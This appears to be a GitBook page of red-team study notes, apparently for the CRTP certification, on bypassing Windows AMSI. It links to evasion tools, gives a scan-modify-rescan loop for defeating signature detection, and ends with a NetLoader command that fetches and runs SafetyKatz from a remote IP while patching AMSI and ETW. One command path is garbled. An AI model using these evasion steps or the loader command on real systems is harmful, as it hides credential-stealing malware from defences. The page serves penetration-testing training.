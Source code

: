 ```yaml
---
cover: ../.gitbook/assets/CRTP (1).png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 🔥 AMSI Bypass

### Bypass Defences On-Memory

### Bypass Defences On-Disk

[AMSITrigger](https://github.com/RythmStick/AMSITrigger)

{% code overflow="wrap" %}
```powershell
AmsiTrigger_x64.exe -i C: AD Tools Invoke PowerShellTcp_Detected.ps1 DefenderCheck.exe PowerUp.ps1
```
{% endcode %}

[DefenderCheck](https://github.com/t3hbb/DefenderCheck)

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

Steps to avoid signature-based detection are pretty simple:&#x20;

1\) Scan using AMSITrigger&#x20;

2\) Modify the detected code snippet&#x20;

3\) Rescan using AMSITrigger&#x20;

4\) Repeat steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “BLANK"

### Payload Delivery

{% embed url="https://github.com/Flangvik/NetLoader" %}

It can be used to load binary from file path or URL and patch AMSI & ETW while executing.

```
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```
